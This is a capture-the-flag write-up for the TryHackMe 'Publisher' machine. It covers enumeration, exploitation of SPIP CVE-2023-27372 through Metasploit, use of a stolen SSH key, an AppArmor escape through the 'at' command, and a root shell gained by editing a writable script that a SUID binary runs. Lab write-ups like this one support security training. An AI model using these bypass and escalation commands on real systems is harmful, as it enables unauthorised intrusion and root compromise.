



# Publisher
[Publisher](https://tryhackme.com/room/publisher) is a free machine that is available over at tryhackme. The main goal of the machine is to test the users enumeration skills over exploitation. I don't like to spout more than I need to so let's get started with enumeration

Doing a quick nmap scans reveal the following:
```
Nmap scan report for publisher.thm (10.10.145.234)
Host is up (0.00057s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
```

Heading over to the site reveals a blog running the SPIP content management system.


Nothing really noteworthy about the site since it's mostly a static web page.
Only possibly noteworthy thing available is the existence of an admin user but that won't necessarily lead anywhere.

Let's do some more enumeration regarding the CMS itself

First, we check out if there are any possible directories within the site.

(Note: I'm doing this in an attackbox. Your wordlists may be located elsewhere)

After running the following command:
```
gobuster dir -u http://publisher.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
```
I get:
```
/images               (Status: 301) [Size: 315] [--> http://publisher.thm/images/]
/spip                 (Status: 301) [Size: 313] 
```

"spip" might seem interesting.

A hidden blog? Regardless, sifting through it leads nowhere. Let's do some more digging within spip itself.

```
/local                (Status: 301) [Size: 319] [--> http://publisher.thm/spip/local/]
/vendor               (Status: 301) [Size: 320] [--> http://publisher.thm/spip/vendor/]
/config               (Status: 301) [Size: 320] [--> http://publisher.thm/spip/config/]
/LICENSE              (Status: 200) [Size: 35147]
/tmp                  (Status: 301) [Size: 317] [--> http://publisher.thm/spip/tmp/]
/IMG                  (Status: 301) [Size: 317] [--> http://publisher.thm/spip/IMG/]
/ecrire               (Status: 301) [Size: 320] [--> http://publisher.thm/spip/ecrire/]
/prive                (Status: 301) [Size: 319] [
```

There's probably something useful here. (I wouldn't know :) )

Two interesting finds:\
- ` /local ` has a `config.txt` file which reveals what version of SPIP the server is running.

```
Composed-By: SPIP @ www.spip.net + spip(4.2.0),aide(3.1.0),archiviste(2.2.0),compagnon(3.1.0) (...)
```  

- ```/ecrire``` leads to a login page.


doing some research on SPIP 4.2.0 I found that it is vulnerable to [CVE-2023-27372](https://nvd.nist.gov/vuln/detail/CVE-2023-27372)

Metasploit has a module targeting this very vulnerability.
Let's try it out!

\
Wonderful.

Some more enumeration leads us to a user called "think" who also happens to have the user flag
```
Listing: /home/think
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2025-09-10 15:31:13 +0100  .bash_history
100644/rw-r--r--  220   fil   2023-11-14 08:57:26 +0000  .bash_logout
100644/rw-r--r--  3771  fil   2023-11-14 08:57:26 +0000  .bashrc
040700/rwx------  4096  dir   2023-11-14 08:57:24 +0000  .cache
040700/rwx------  4096  dir   2023-12-08 13:07:22 +0000  .config
040700/rwx------  4096  dir   2024-02-10 21:22:33 +0000  .gnupg
040775/rwxrwxr-x  4096  dir   2024-01-10 12:46:09 +0000  .local
100644/rw-r--r--  807   fil   2023-11-14 08:57:24 +0000  .profile
020666/rw-rw-rw-  0     cha   2025-09-10 15:31:13 +0100  .python_history
040755/rwxr-xr-x  4096  dir   2024-01-10 12:54:17 +0000  .ssh
020666/rw-rw-rw-  0     cha   2025-09-10 15:31:13 +0100  .viminfo
040750/rwxr-x---  4096  dir   2023-12-20 19:05:25 +0000  spip
100644/rw-r--r--  35    fil   2024-02-10 21:20:39 +0000  user.txt

meterpreter > cat user.txt
<Redacted> 
```
The meterpreter shell is still quite limited since we are logged in as `www-data.`

(I later found out that it's actually also a docker container. Go figure.)

Thankfully, "think" happens to have a pair of RSA keys with misconfigured permissions over at the `.ssh folder. Therefore, we can download them and use them to login via SSH.
```
$ Chmod 600 id_rsa
$ ssh -i id_rsa think@publisher.thm
...
...
think@publisher.thm:~$ 
```

Now I *COULD* do some manual enumeration to find out if there are any potential privesc vulnerabilities. but I'm a lazy bastard. 

So let's let LinPEAS do our work for us and intervene later if we need to.

```
$ scp -i id_rsa ~/Tools/PEAS/linPEAS/linpeas.sh think@publisher.thm:~
scp: /home/think/linpeas.sh: Permission denied
```
That's odd. "think" can't write to their own home directory?
"think" can't write anything anywhere actually. Not even `/tmp` 

This is inline with the machines description:

"Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation."

(So much for trying to be lazy -_-)

the keyword here is **security profile**. So there could be a security module installed such as SELinux or AppArmor.

Some digging reveals that AppArmor has a few set configuration for some applications.
```
$ ls /etc/apparmor.d
abi             lsb_release          ubuntu_pro_esm_cache  usr.sbin.rsyslogd
abstractions    nvidia_modprobe      usr.bin.man           usr.sbin.tcpdump
disable         sbin.dhclient        usr.sbin.ash
force-complain  tunables             usr.sbin.ippusbxd
local           ubuntu_pro_apt_news  usr.sbin.mysqld
```

`usr.bin.ash` huh.

running `ps`:
```
$ ps
    PID TTY          TIME CMD
   2152 pts/0    00:00:00 ash
   2461 pts/0    00:00:00 ps
```

interesting. Turns out we weren't running bash. Rather, a copy of it with a different name.

checking out the security profile:
```
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

This explains why we couldn't write anywhere. 

Since our current user automatically starts with ash instead of bash we can't really do much to bypass this security profile as the current user.

`sudo -l` demands a password so that's out of the question.

running `find / -perm -g=s -perm -u=s 2>/dev/null` yielded something interesting however:

```
$ find / -perm -g=s -perm -u=s 2>/dev/null
/usr/sbin/run_container
/usr/bin/at
```

`at` is a command meant to execute a task at a specific time. (at least according to the man page) But for our purposes, we are gonna use it to break out of the locked down `ash` shell and into a free `bash` one.

GTFOBin gives us this command:\
`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

modifying it to execute bash instead of sh:

```
$ echo "/bin/bash <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
warning: commands will be executed using /bin/sh
job 2 at Wed Sep 10 16:40:00 2025
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
$ whoami
think
$ pwd 
/home/think
$ touch test
$
```
we are now free to read, modify, and write into any folder previously listed in the AppArmor profile.

In our case, we are gonna look deeper into `run_container`

executing it shows us that it's just an executable that runs a shell script located in `/opt`

```
$ run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 2 hours

Enter the ID of the container or leave blank to create a new one: 
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container    3) Restart Container  5) Quit
2) Stop Container     4) Create Container
Choose an action for a container: 5
Exiting...
```

Guests have write permission to `run_container.sh`

adding `/bin/bash -p` to the beginning of the file and running `run_container`:

```
$ run_container        
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
root.txt  spip
bash-5.0# cat root.txt
<redacted>
bash-5.0# 
```

Wonderful.
---

Most machines I have pwned usually have their difficulty curve at the start of the challenge rather than the end. Plus, they can mostly be automated via scripts and the likes. So to get a challenge that stifles both is always a nice thing to stumble upon.

Overall, quite a nice machine.
